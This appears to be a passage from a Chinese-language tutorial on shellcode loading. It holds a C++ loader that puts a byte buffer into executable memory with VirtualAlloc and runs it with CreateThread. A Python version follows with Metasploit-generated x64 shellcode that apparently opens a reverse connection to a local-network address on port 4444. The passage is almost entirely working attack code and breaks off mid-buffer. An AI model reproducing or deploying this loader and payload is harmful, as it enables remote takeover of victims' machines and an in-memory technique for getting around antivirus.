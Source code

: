 ```cpp
"\x68\x2c\x9b\xfc\xa4\x50\x58\xff\xd5\x97\x6a\x10\x56\x57\x68\xb6\x59\xc0"
"\x0e\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\xe8\xd9\xce\x36\xff\xd5\x83\xf8"
"\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68"
"\x9c\xed\x92\x66\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\xe8\xd9"
"\xce\x36\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a"
"\x00\x50\x68\x3e\xba\x17\xa3\xff\xd5\x57\x68\xe6\xfc\xe1\xe2\xff"
"\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xfc\xd3\xf4\x5e\x6a\x00\x53"
"\xff\xd5";


void main() {

	// 申请一块可进行读写操作的内存
    LPVOID pMemory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // 将buf数组中的内容复制到刚刚分配的内存中
    RtlMoveMemory(pMemory, buf, sizeof(buf));

    // 创建一个新的线程来执行内存中的代码
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)pMemory, NULL, 0, NULL);

    // 等待新创建的线程执行完成
    WaitForSingleObject(hThread, INFINITE);

}
```



下述是申请内存加载的python版本代码:

```python
#使用MSF生成的python格式的ShellCode
buf =  b""
buf += b"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51"
buf += b"\x41\x50\x52\x48\x31\xd2\x51\x65\x48\x8b\x52\x60"
buf += b"\x56\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x0f\xb7"
buf += b"\x4a\x4a\x48\x8b\x72\x50\x4d\x31\xc9\x48\x31\xc0"
buf += b"\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
buf += b"\x01\xc1\xe2\xed\x52\x48\x8b\x52\x20\x41\x51\x8b"
buf += b"\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
buf += b"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48"
buf += b"\x85\xc0\x74\x67\x48\x01\xd0\x44\x8b\x40\x20\x50"
buf += b"\x49\x01\xd0\x8b\x48\x18\xe3\x56\x48\xff\xc9\x4d"
buf += b"\x31\xc9\x41\x8b\x34\x88\x48\x01\xd6\x48\x31\xc0"
buf += b"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1"
buf += b"\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44"
buf += b"\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
buf += b"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x41\x58"
buf += b"\x41\x58\x48\x01\xd0\x5e\x59\x5a\x41\x58\x41\x59"
buf += b"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
buf += b"\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49"
buf += b"\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49"
buf += b"\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5"
buf += b"\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x2f\x9b\x41\x54"
buf += b"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
buf += b"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41"
buf += b"\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50"
buf += b"\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89"
buf += b"\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf"
buf += b"\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
buf += b"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5"
buf += b"\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00"
```
